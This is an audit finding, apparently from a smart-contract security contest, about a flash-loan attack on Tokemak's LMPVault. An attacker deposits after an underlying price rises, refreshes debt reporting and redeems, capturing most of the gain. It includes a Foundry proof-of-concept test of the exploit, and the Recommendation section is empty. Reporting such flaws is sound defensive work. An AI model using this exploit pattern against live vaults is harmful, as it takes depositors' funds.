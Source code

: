 Vast Teal Bat

high

# When an underlying price increases, an attacker can update the debt info to profit by using flash loans
## Summary

When an underlying price increases, an attacker can update the debt info to profit by using flash loans.

## Vulnerability Detail

The vulnerability allows the attacker to perform a series of actions that lead to substantial profits. The steps involved are as follows:

1. The attacker monitors the underlying prices of destination vaults.
2. When the underlying price of a destination vault increases, the attacker initiates a flash loan.
3. The attacker deposits assets gotten from the flash loan into the `LMPVault` related to the destination vault with the increased underlying price.
4. The attacker updates the debt reporting to reflect the increased debt value resulting from the increased underlying price. The increased debt value raises the total asset value of the `LMPVault`, which in turn increases the Net Asset Value (NAV).
6. Finally, the attacker redeems all of their shares, benefiting from the increased NAV.

This vulnerability allows the attacker to exploit pricing changes and leverage flash loans to maximize their profits.

Here is the coded scenario to demonstrate the vulnerability:


```solidity
    function test_attacker_gets_all_profit_when_underlying_price_increases() public {
        _accessController.grantRole(Roles.SOLVER_ROLE, address(this));
        _accessController.grantRole(Roles.LMP_FEE_SETTER_ROLE, address(this));

        // User is going to deposit 1000 asset
        address user = vm.addr(1111);
        vm.startPrank(user);
        _asset.mint(user, 1000);
        _asset.approve(address(_lmpVault), 1000);
        _lmpVault.deposit(1000, user);
        vm.stopPrank();

        // Deployed 1000 asset to DV1
        _underlyerOne.mint(address(this), 1000);
        _underlyerOne.approve(address(_lmpVault), 1000);
        _lmpVault.rebalance(
            address(_destVaultOne),
            address(_underlyerOne), // tokenIn
            1000,
            address(0), // destinationOut, none when sending out baseAsset
            address(_asset), // baseAsset, tokenOut
            1000
        );

        // Increase the price of DV1 to 200% of original, so that 1000 we transferred out is now worth 2000
        _mockRootPrice(address(_underlyerOne), 2e18);

        // The attacker uses flash loan to get 1_000_000_000 assets
        address attacker = vm.addr(12345);
        vm.startPrank(attacker);
        _asset.mint(attacker, 1_000_000);
        _asset.approve(address(_lmpVault), 1_000_000);

        // The attacker deposits 1_000_000_000 assets
        _lmpVault.deposit(1_000_000, attacker);

        // Updates the debt reporting
        address[] memory dvAddresses = new address[](1);
        dvAddresses[0] = address(_destVaultOne);
        _lmpVault.updateDebtReporting(dvAddresses);

        // Redeems all shares
        uint256 assetsAfter = _lmpVault.redeem(
            _lmpVault.balanceOf(attacker),
            attacker,
            attacker
        );
        vm.stopPrank();

        // The attacker gets most of the profit from the increase of the underlying price
        assertEq(assetsAfter, 1_000_999);

        // Users gets almost no profit
        vm.startPrank(user);
        uint256 userAssets = _lmpVault.redeem(
            _lmpVault.balanceOf(user),
            user,
            user
        );
        assertEq(userAssets, 1001);
    }
```

## Impact

An attacker can execute flash loans to earn substantial profits. This leads to substantial monetary setbacks for other users since the exploit would result in a lower NAV. Consequently, when other users redeem their shares, they would receive fewer assets than they should, particularly if the vulnerability is exploited.

## Code Snippet

https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L628-L630

## Tool used

Manual Review

## Recommendation